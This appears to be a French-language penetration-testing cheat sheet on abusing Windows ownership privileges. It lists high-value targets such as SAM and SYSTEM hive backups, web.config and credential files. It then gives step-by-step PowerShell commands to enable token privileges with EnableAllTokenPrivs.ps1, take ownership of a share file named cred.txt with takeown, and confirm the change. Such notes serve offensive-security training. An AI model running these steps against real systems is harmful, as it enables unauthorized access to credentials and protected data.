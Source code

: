 
> [!TIP]
> Permet de prendre le contrôle d'un objet et de s'octroyer des droits dessus
> Utile pour lire des fichiers sur lesquels nous n'avons pas les droits

Exemple de fichiers utiles:
```shell
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

N'importe quel fichier de config egalement / creds / DB

## EnableAllTokenPrivs

https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1
### 1. Activer le privilège

```powershell-session
Import-Module .\Enable-Privilege.ps1
```

```powershell-session
.\EnableAllTokenPrivs.ps1
```

Check si le droit est bien activé

```powershell-session
whoami /priv
```


### 2. Checker les droit sur l'objet cible (partage par exemple)

```powershell-session
cmd /c dir /q 'C:\Department Shares\Private\IT'
```


### 3. Take ownership sur l'objet

```powershell
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```


### 4. Confirmer le changement de propriétaire

```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
```
